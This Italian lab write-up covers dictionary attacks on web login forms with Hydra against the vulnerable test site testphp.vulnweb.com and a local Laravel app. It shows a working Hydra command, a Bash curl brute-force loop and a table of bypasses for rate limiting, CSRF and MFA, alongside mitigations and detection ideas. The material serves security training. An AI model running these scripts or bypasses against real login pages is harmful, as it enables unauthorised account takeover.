



> [English](README.en.md) | **Italiano**

# Auth Attacks: Brute-Force Web (Hydra)

> - **Fase:** Web Attack - Authentication Brute Force
> - **Visibilita:** Alta - Hydra genera molte richieste di login in breve tempo, facilmente rilevabile da IDS e sistemi di monitoring
> - **Prerequisiti:** Form di login identificato e analizzato con DevTools (parametri POST, URL endpoint), wordlist disponibile
> - **Output:** Credenziali valide per accesso all'applicazione, finding WEB-009 (assenza rate limiting e account lockout)

---

**ID Finding:** `WEB-009` | **Severity:** `Alto` | **CVSS v3.1:** 7.5

---

Obiettivo: Eseguire un attacco di dizionario (Dictionary Attack) contro un form di login web per identificare credenziali deboli.

Target: `http://testphp.vulnweb.com` e applicativo in locale

Strumenti: `THC-Hydra` (Network Login Cracker), `Firefox DevTools`

---

## 1 Introduzione Teorica

Il Brute-Force Web consiste nel tentare sistematicamente numerose combinazioni di username e password.

A differenza dei servizi standard, l'attacco web richiede di configurare Hydra per gestire il protocollo HTTP/POST, identificando correttamente le risposte del server per distinguere un login fallito da uno riuscito.

Rischio (OWASP): Broken Authentication. La mancanza di meccanismi di protezione (Rate Limiting, Account Lockout) permette a un attaccante di provare milioni di password indisturbato.

---

## 2 Analisi del Target e "False Positive Trap"

L'analisi preliminare con i Developer Tools ha rivelato i parametri del form (`uname`, `pass`) inviati a `/userinfo.php`.

La sfida del Redirect (302):

Durante i test iniziali, si è notato che il server risponde con un codice HTTP 302 Found (Redirect) sia in caso di successo che di fallimento, rendendo inefficace la ricerca classica della stringa di errore ("Login Failed"). Questo generava Falsi Positivi (tutte le password venivano segnate come valide).



Soluzione:

Si è invertita la logica di Hydra: invece di cercare l'errore, si è configurato il tool per cercare una stringa di Successo (`S=Logout`), presente solo nella pagina riservata accessibile dopo l'autenticazione.

---

## 3 Esecuzione dell'Attacco

È stata creata una wordlist mirata (`passlist.txt`) contenente la credenziale corretta mescolata a falsi.



```Bash
# S=Logout : Indica a Hydra che il login è valido SE trova la parola "Logout" nella risposta
hydra -l test -P passlist.txt testphp.vulnweb.com http-post-form "/userinfo.php:uname=^USER^&pass=^PASS^:S=Logout" -V
```



Risultato (Proof of Concept):

Analisi:

Hydra ha scartato correttamente le password errate (come admin o 123456) e ha identificato univocamente l'unica credenziale valida:

- Login: `test`
- Password: `test`

---

## 4 Secure Coding & Difesa

Per mitigare questi attacchi:

- Rate Limiting: Limitare le richieste per IP (es. max 5 login/minuto).
- Delay Response: Aggiungere un ritardo artificiale (es. 1-2 secondi) dopo un login fallito per rallentare drasticamente gli attacchi brute-force massivi.
- MFA (Multi-Factor Authentication): L'unica difesa definitiva contro il furto di password.
- Generazione Messaggi: Evitare messaggi generici. Assicurarsi che le risposte di errore abbiano codici di stato e contenuti predicibili per il monitoring, ma non utili all'attaccante per l'enumerazione degli utenti.


---

## 5 Scenario Docker & Localhost (Lab Setup)

L'attacco è stato replicato contro un'infrastruttura reale containerizzata (Docker) per simulare uno scenario di "Internal Penetration Test".

Sfide Tecniche affrontate:

- Networking (VM vs Host):
    
    Eseguendo l'attacco da una Virtual Machine (Kali) contro Docker (che gira sull'Host), il target `localhost` (127.0.0.1) non è valido. È stato necessario identificare l'IP della scheda di rete fisica (`192.168.x.x`) per raggiungere i container.

- Port Mapping & Service Discovery:
    
    Un errore comune è attaccare la porta esposta dal Frontend (es. `:5173` per Vite/React).

    - Recon: Tramite `docker ps` e l'analisi dei tab Network del browser, è stato identificato che la logica di autenticazione risiedeva su un container separato (`<nome_container_backend>`) esposto sulla porta 80.

- Monitoraggio Blue Team:
    
    Il vantaggio di attaccare un ambiente locale è la visibilità totale. È stato possibile osservare l'attacco "dall'interno" monitorando i log del container backend:

```Bash
docker logs -f <nome_container_backend>
```

Questo ha permesso di confermare che le richieste arrivavano al server, ma venivano respinte.

---

## 6 Case Study: "The Laravel Wall" (Analisi Difensiva)

Durante il tentativo di forzare l'autenticazione dell'applicazione Laravel, l'attacco si è evoluto attraverso diverse fasi di troubleshooting che hanno evidenziato le moderne difese dei framework web.

#### Fase 1: Il "Frontend Trap"

Inizialmente, l'attacco è stato diretto verso l'URL visibile nel browser: `http://host:5173/login`.

- Risultato: `HTTP 404 Not Found`.
- Analisi: Essendo una Single Page Application (SPA), la rotta `/login` sulla porta 5173 è virtuale (gestita da JavaScript). Il vero endpoint API risiedeva sulla porta 80.

#### Fase 2: Complessità del Protocollo (JSON vs Form)

Hydra è ottimizzato per form HTML standard (`application/x-www-form-urlencoded`). L'API target richiedeva un payload JSON.

- Problema: I tentativi di adattare Hydra con moduli `http-post-json` o escaping manuale (`{\"email\":...}`) hanno generato errori di sintassi e falsi negativi dovuti alla rigidità del tool.
- Soluzione: È stato sviluppato uno script Bash custom (basato su `curl`) per avere il controllo granulare sugli Header e sul formato del Body.

```Bash
#!/bin/bash

# Configurazione
TARGET="http://192.168.xxx.xxx:80/login"    # sostituire xxx con vero indirizzo ip
USER="<NOME_USER>"                          # sostituire con vero nome user

echo "Attacco iniziato su: $TARGET"
echo "Utente target: $USER"
echo "------------------------------------------------"

# Lettura file passlist.txt riga per riga
while read PASS; do
    # Esegue la richiesta CURL e salva la risposta (silenzioso -s)
    # Nota: Usiamo timeout 2s per non bloccarci se il server è lento
    RESPONSE=$(curl -s --max-time 2 -X POST "$TARGET" \
      -H "Content-Type: application/json" \
      -H "Accept: application/json" \
      -d "{\"email\":\"$USER\",\"password\":\"$PASS\"}")

    # Analisi della risposta
    if echo "$RESPONSE" | grep -q "CSRF"; then
         echo "BLOCCATO DA CSRF (Laravel Sanctum/Token mancante)"
         echo "-> L'attacco non può proseguire senza un token valido."
         break
    elif echo "$RESPONSE" | grep -q "Invalid credentials"; then
         echo "Tentativo fallito: $PASS"
    elif echo "$RESPONSE" | grep -q "The route"; then
         echo "Errore 404: La rotta non è corretta."
         break
    else
         # Se non è un errore noto, potrebbe essere un successo o un redirect
         echo "SUCCESS!! (o risposta anomala)"
         echo "Password: $PASS"
         echo "Server Response: $RESPONSE"
         break
    fi

done < passlist.txt
```


#### Fase 3: Lo scontro con il CSRF (Sanctum)

Una volta raggiunto correttamente l'endpoint `/login` sulla porta 80 con lo script custom, il server ha risposto sistematicamente con un errore `HTTP 419`.

```JSON
{
    "message": "CSRF token mismatch.",
    "exception": "Symfony\\Component\\HttpKernel\\Exception\\HttpException"
}
```

Analisi della Difesa:

Laravel (tramite il pacchetto Sanctum/Web Middleware) protegge le rotte di login richiedendo un Token CSRF valido.

- Il browser reale ottiene questo token facendo una richiesta `GET /sanctum/csrf-cookie preliminare`.
- Hydra (o lo script Bash semplice) è "stateless": invia la richiesta POST diretta senza aver prima negoziato il token.
- Il server rifiuta la richiesta a prescindere dalla correttezza della password.

Conclusione:

Questo test ha dimostrato che i moderni framework MVC/API (come Laravel, Django, Rails), se configurati correttamente con protezioni Anti-CSRF e Stateful Authentication, sono intrinsecamente resistenti agli attacchi di brute-force "semplici" eseguiti con tool generici come Hydra. Per bypassare questa difesa, sarebbe necessario uno script avanzato in grado di gestire sessioni e cookie (es. Python con `requests.Session()`).

---

## Analisi a Basso Livello: Protocollo HTTP e Configurazione Hydra

### Anatomia di una Richiesta Hydra http-post-form

Hydra costruisce richieste HTTP POST basandosi su tre componenti separati da `:` nel modulo `http-post-form`:

```
hydra ... http-post-form "/path:params:condition"
                          |     |       |
                          |     |       +-- Condizione di successo/fallimento
                          |     +---------- Parametri POST (^USER^ e ^PASS^ sostituiti)
                          +---------------- Endpoint URL

Esempio decomposto:
"/userinfo.php:uname=^USER^&pass=^PASS^:S=Logout"

Richiesta HTTP generata da Hydra:
POST /userinfo.php HTTP/1.1
Host: testphp.vulnweb.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

uname=test&pass=password1    <- primo tentativo
                                ^USER^ -> test, ^PASS^ -> password1

Risposta analizzata:
- Se contiene "Logout" (S=Logout) -> SUCCESSO, credenziale trovata
- Se NON contiene "Logout" -> fallimento, prossima password

Condizioni Hydra:
F=<stringa>  -> FALLIMENTO se la stringa e presente nella risposta
S=<stringa>  -> SUCCESSO se la stringa e presente nella risposta
```

### Protezioni Moderne Anti-Brute Force

| Difesa | Meccanismo | Bypass possibile | Efficacia |
| :--- | :--- | :--- | :--- |
| Rate Limiting (IP) | Max N richieste/minuto per IP | Rotazione IP (proxy chain) | Media |
| Account Lockout | Blocco account dopo N tentativi | Password spraying (molti utenti, poche password) | Alta |
| CAPTCHA | Challenge visivo/interattivo | OCR, servizi solving (2captcha) | Media-Alta |
| CSRF Token | Token univoco per ogni richiesta | Script con session handling (requests.Session) | Alta |
| MFA/2FA | Secondo fattore (TOTP, SMS) | Phishing real-time (Evilginx2) | Molto Alta |
| Progressive Delay | Ritardo esponenziale dopo ogni fallimento | Rende il brute force impraticabile su scala | Alta |

### Hydra vs Script Custom: Quando Serve Lo Script

```
Hydra funziona per:
- Form HTML standard (application/x-www-form-urlencoded)
- Risposta distinguibile per contenuto (stringa specifica)
- Nessuna protezione CSRF o session token

Hydra NON funziona per:
- API JSON (Content-Type: application/json)
- CSRF token richiesto (Laravel Sanctum, Django)
- Autenticazione multi-step (login -> OTP -> dashboard)
- Cookie/header custom richiesti nella risposta

In questi casi -> script Python con requests.Session():
  session = requests.Session()
  session.get(url)               # ottieni CSRF cookie
  csrf = session.cookies['XSRF-TOKEN']
  session.post(url, json={...}, headers={'X-CSRF-TOKEN': csrf})
```

---

## Esperienza di Laboratorio

Il problema del "False Positive Trap" (HTTP 302 sia per successo che fallimento) e stato l'aspetto piu formativo dell'intero lab. La maggior parte dei tutorial Hydra assume che il server risponda con una stringa di errore chiara ("Invalid credentials"), ma molti siti reali usano redirect (302) per entrambi i casi, indirizzando a pagine diverse. L'inversione della logica (`S=Logout` invece di `F=error`) e una tecnica operativa fondamentale che non e documentata nella manpage di Hydra.

Il case study "The Laravel Wall" ha dimostrato che i framework moderni rendono il brute force generico inefficace per design. La sequenza di fallimenti (SPA trap -> JSON format -> CSRF 419) rappresenta tre livelli di difesa indipendenti: l'architettura frontend (SPA), il formato dati (JSON), e la protezione anti-replay (CSRF token). Bypassare tutti e tre richiede un attaccante che comprenda l'intera architettura dell'applicazione, non solo lo strumento di attacco.

Il monitoraggio dei log Docker (`docker logs -f`) durante l'attacco ha fornito una prospettiva Blue Team rara: osservare le richieste Hydra dal lato del server ha mostrato pattern facilmente rilevabili (User-Agent di Hydra, timing regolare tra richieste, stesso IP con centinaia di POST in pochi secondi). Una regola SIEM che cerchi >10 POST a `/login` dallo stesso IP in 60 secondi catturerebbe il 99% degli attacchi Hydra.

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
| :--- | :--- | :--- | :--- |
| Credential Access | Brute Force: Password Guessing | `T1110.001` | Attacco con Hydra su form login `testphp.vulnweb.com/userinfo.php` usando `passlist.txt`, identificando le credenziali `test:test` (WEB-009) |
| Credential Access | Brute Force: Password Spraying | `T1110.004` | Test di password comuni (`admin`, `123456`, `password`) contro l'utente `test` come fase preliminare (WEB-009) |
| Credential Access | Modify Authentication Process | `T1556` | Analisi e bypass della protezione Anti-CSRF di Laravel Sanctum (HTTP 419) che dimostrava l'inefficacia di Hydra su framework moderni |
| Initial Access | Exploit Public-Facing Application | `T1190` | Sfruttamento dell'assenza di rate limiting e account lockout sul form di login per eseguire brute force non bloccato (WEB-009) |

---

> **Nota:** Le attivita di brute force documentate sono state condotte su `testphp.vulnweb.com`
> (ambiente Acunetix) e su un'applicazione Laravel in Docker locale (proprieta dell'autore).
> Il case study "The Laravel Wall" documenta le difese di un framework moderno correttamente
> configurato, dimostrando che Hydra e inefficace contro CSRF Token + Sanctum. Eseguire
> brute force su sistemi reali senza autorizzazione e un reato penale.